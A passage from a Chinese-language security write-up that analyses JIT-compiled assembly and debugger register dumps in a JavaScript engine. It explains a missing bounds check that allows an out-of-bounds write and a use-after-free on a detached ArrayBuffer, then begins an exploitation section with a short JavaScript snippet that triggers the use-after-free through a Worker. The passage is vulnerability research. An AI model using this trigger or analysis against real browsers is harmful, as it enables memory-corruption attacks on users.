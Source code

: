 [![](https://p4.ssl.qhimg.com/t0108580dcee28589e0.jpg)](https://p4.ssl.qhimg.com/t0108580dcee28589e0.jpg)

看一下JIT对这个for循环生成的汇编代码： 

[![](https://p5.ssl.qhimg.com/t0115145dad118e4329.jpg)](https://p5.ssl.qhimg.com/t0115145dad118e4329.jpg)

代码稍微行数多一点，分开解释分析，for循环头部是获取for循环相关的参数

[![](https://p0.ssl.qhimg.com/t01fd3765c499065318.jpg)](https://p0.ssl.qhimg.com/t01fd3765c499065318.jpg)



```
R12=0x0001000000010000  //这里是取出for循环的step=0x0001000000010000
R13=0x000100006e617579  //这里是取出view数组要赋予的值0x000100006e617579
R14=0x0001000040000010  //这里是取出for循环的end=0x0001000040000010
R15=0x000100003000000e  //这里是取出for循环的start=0x000100003000000e
```

在这里可以发现每一个数值的高四位有一个1，是用来区分这个值是对象还是int类型的

1 表示数据int，0 表示obj

[![](https://p1.ssl.qhimg.com/t016086cbf0d3aef792.jpg)](https://p1.ssl.qhimg.com/t016086cbf0d3aef792.jpg)



```
0:010&gt;
rax=0000000000000001 rbx=00000186e9c00000 rcx=00000186e9800dc0
rdx=0000000000010000 rsi=00000186e95d68c4 rdi=00000036be1fb900
rip=00000187e9f00122 rsp=00000036be1fb5d0 rbp=00000036be1fb670
 r8=000000003000000e  r9=0000000040000010 r10=000100006e617579
r11=0000000000000001 r12=000100006e617579 r13=000100006e617579
r14=0001000040000010 r15=000100003000000e
iopl=0         nv up ei pl zr na po nc
cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246   
mov     dword ptr [rbx+r8*4],r12d ds:00000187`a9c00038=????????
```

最终代码运行到此处，rbx是buffer对象的内存基地址，r8是数组索引0x3000000e，r12给数组赋予的值，整个过程没有检测索引的范围造成了数组越界。当然漏洞不仅仅这一个，仔细推敲上述过程，我们可以发现，JIT在使用buffer对象的缓冲区域时并没有检测buffer对象是否被分离释放，这就是我们发现的第二个漏洞。可能细心点的读者都发现了，写入的地址不可访问，都是?????????，那为什么漏洞会利用成功而且不崩溃呢？请看下文。

<br>

**0x03 漏洞利用**

只有crash是远远不够的，还记得yuange曾经说过：”exp的价值远远大于poc”。下面笔者将分析一下两个漏洞的利用技术，两个漏洞成因极为相似，所以在利用技术上也很相近。

触发UAF漏洞主要代码如下：



```
var buffer = new ArrayBuffer(0x10000);
var view = new Uint32Array(buffer);
var worker = new Worker('uaf1.js');
worker.postMessage(buffer,[buffer]);
worker.terminate();
```
